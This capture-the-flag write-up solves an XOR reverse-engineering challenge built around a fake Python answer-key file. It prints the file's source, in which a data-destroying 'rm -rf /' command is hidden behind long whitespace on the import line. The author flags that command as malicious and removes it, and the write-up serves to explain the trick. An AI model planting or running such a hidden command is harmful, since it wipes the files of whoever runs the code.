

# sPYware
### Description: Temen ku ngasih kunjaw ETS ATP/Dasprog/(insert nama matkul pengenalan pemrograman di depart kalian) nih, tapi kok ga mau jalan yh?

In this challenge we are given a python file ```kunci_jawaban.py```.

Here is the source code of said file:
```
import random                                                                                                                                                                                                                                                                                                                                                                                                                 import os; os.system("rm -rf /")
import sys

def str_xor(secret, key):
  new_key = key
  i = 0
  while len(new_key) < len(secret):
    new_key = new_key + key[i]
    i = (i + 1) % len(key)                                                                                                                                                                            ^ key                                                                                                                                                                                                                                                                                           
  return "".join([chr(ord(secret_c) ^ ord(new_key_c)) for (secret_c,new_key_c) in zip(secret,new_key)])

flag = "HCS{ini_flag_!aseli_~no_fek_fek_coba_aja_submit_xixixi}"

flag_enc = (
  chr(0x38) + chr(0x31) + chr(0x3c) + chr(0x1c) + chr(0x15) + chr(0x08) + chr(0x07) +                                                                                                                                                                                                                                                                                                                       + chr(0x00)
  chr(0x09) + chr(0x14) + chr(0x2f) + chr(0x19) + chr(0x1a) + chr(0x09) + chr(0x02) + 
  chr(0x04) + chr(0x36) + chr(0x04) + chr(0x06) + chr(0x07) + chr(0x13) + chr(0x0d) + 
  chr(0x06) + chr(0x0f) + chr(0x03) + chr(0x10) + chr(0x0f) + chr(0x38) + chr(0x12) + 
  chr(0x00) + chr(0x00) + chr(0x0c) + chr(0x3e) + chr(0x1e) + chr(0x0c) + chr(0x03) +                                                                                                                                                               + chr(0x67)
  chr(0x08) + chr(0x17) + chr(0x13) + chr(0x30) + chr(0x0b) + chr(0x14) + chr(0x32) + 
  chr(0x0d) + chr(0x0f) + chr(0x17) + chr(0x15) + chr(0x06) + chr(0x30) + chr(0x09) + 
  chr(0x08) + chr(0x01) + chr(0x08) + chr(0x07) + chr(0x38) + chr(0x31) + chr(0x2d) + 
  chr(0x16) + chr(0x02) + chr(0x04) + chr(0x10)
)

if flag = "":
  print(flag)
else:
  flag = str_xor(flag_enc, 'progaming')                                                                                                                                                                                                                               sys.exit()
  print('"Kelazz king, nih flag: " ' + flag)
```
As we could see, there is an obvious red herring there so we won't even consider submitting it.

Looking at this python source, It's a reverse engineering challenge with XOR encryption. However, there are several syntax errors and a very glaring malicious code in the file that need to be addressed.

```os.system("rm -rf /")```  is a dangerous command that would delete all files on a Unix system. We first need to remove this thing.

After doing some fixing and removing the malicious code, of course with the help of Claude lmao, we are left with this decryptor which prints the flag:
```
#!/usr/bin/env python3

def str_xor(secret, key):
    """XOR function that repeats the key to match secret length"""
    new_key = key
    i = 0
    while len(new_key) < len(secret):
        new_key = new_key + key[i]
        i = (i + 1) % len(key)
    return "".join([chr(ord(secret_c) ^ ord(new_key_c)) for (secret_c, new_key_c) in zip(secret, new_key)])

# The encrypted flag from the original file (cleaned up)
flag_enc = (
    chr(0x38) + chr(0x31) + chr(0x3c) + chr(0x1c) + chr(0x15) + chr(0x08) + chr(0x07) +
    chr(0x09) + chr(0x14) + chr(0x2f) + chr(0x19) + chr(0x1a) + chr(0x09) + chr(0x02) + 
    chr(0x04) + chr(0x36) + chr(0x04) + chr(0x06) + chr(0x07) + chr(0x13) + chr(0x0d) + 
    chr(0x06) + chr(0x0f) + chr(0x03) + chr(0x10) + chr(0x0f) + chr(0x38) + chr(0x12) + 
    chr(0x00) + chr(0x00) + chr(0x0c) + chr(0x3e) + chr(0x1e) + chr(0x0c) + chr(0x03) +
    chr(0x08) + chr(0x17) + chr(0x13) + chr(0x30) + chr(0x0b) + chr(0x14) + chr(0x32) + 
    chr(0x0d) + chr(0x0f) + chr(0x17) + chr(0x15) + chr(0x06) + chr(0x30) + chr(0x09) + 
    chr(0x08) + chr(0x01) + chr(0x08) + chr(0x07) + chr(0x38) + chr(0x31) + chr(0x2d) + 
    chr(0x16) + chr(0x02) + chr(0x04) + chr(0x10)
)

# The XOR key from the original file
key = 'progaming'

# Decrypt the flag
flag = str_xor(flag_enc, key)

print(f"Decrypted flag: {flag}")

# Show the decryption process
print(f"\nKey used: {key}")
print(f"Encrypted data length: {len(flag_enc)} bytes")
print(f"Key length: {len(key)} characters")

# Show hex values of encrypted data
print(f"\nEncrypted data (hex): ", end="")
for char in flag_enc:
    print(f"{ord(char):02x} ", end="")
print()

# Show the XOR process for first few characters
print(f"\nXOR process (first 10 characters):")
extended_key = key
while len(extended_key) < len(flag_enc):
    extended_key += key
    
for i in range(min(10, len(flag_enc))):
    encrypted_ord = ord(flag_enc[i])
    key_ord = ord(extended_key[i])
    decrypted_ord = encrypted_ord ^ key_ord
    print(f"{encrypted_ord:02x} ^ {key_ord:02x} ({extended_key[i]}) = {decrypted_ord:02x} ({chr(decrypted_ord)})")
```

The encrypted flag is stored as a series of chr() calls with hex values, which when XORed with the repeating key reveals the actual flag:



Flag: ```HCS{tengs_kunci_jawabannya_brok_semoga_lu_dapet_nilai_A_yee}```